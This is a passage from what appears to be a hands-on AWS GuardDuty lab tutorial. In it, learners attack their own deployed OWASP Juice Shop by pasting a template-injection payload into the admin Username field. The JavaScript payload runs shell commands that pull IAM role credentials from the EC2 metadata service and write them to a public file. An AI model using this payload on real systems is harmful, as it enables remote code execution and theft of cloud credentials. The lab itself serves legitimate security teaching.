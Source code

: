 ### Exploit the Web App

  

Having bypassed the login page, we'll stay in 😈 hacker mode 😈 and do our next move - stealing credentials to the web app host's AWS environment!

Yup, you guessed it. **You're** the web app host, since you're the one that deployed this web app.

  
  

**In this step, you're going to:**

-   Steal AWS credentials.
    
-   Access the stolen credentials.
    

![](https://learn.nextwork.org/projects/static/aws-security-guardduty/architecture-4.0.png)

  



  
  

**Run Malicious Code**

-   Select the **Account** option on the top right hand corner.
    

> 🙋‍♀️ **I don't see the Account option!**  
> If you can't find it, make sure you haven't zoomed into your page. You can also try widening your browser window.

![](https://learn.nextwork.org/projects/static/aws-security-guardduty/processed_image_31.png)

  ![Screenshot 2025-05-03 162007](https://github.com/user-attachments/assets/2247bbb5-8061-4073-a432-38cad43726c9)


-   Select your **admin@juice-sh.op** email.
    

  
  

This takes you to the admin's profile page!

![](https://learn.nextwork.org/projects/static/aws-security-guardduty/processed_image_32.png)

 ![Screenshot 2025-05-03 162024](https://github.com/user-attachments/assets/6639ee17-e108-451d-82d0-904366c24dfd) 

-   Click into the **Username** field, and paste the following JavaScript code:
    

javascript



```javascript
#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}

```
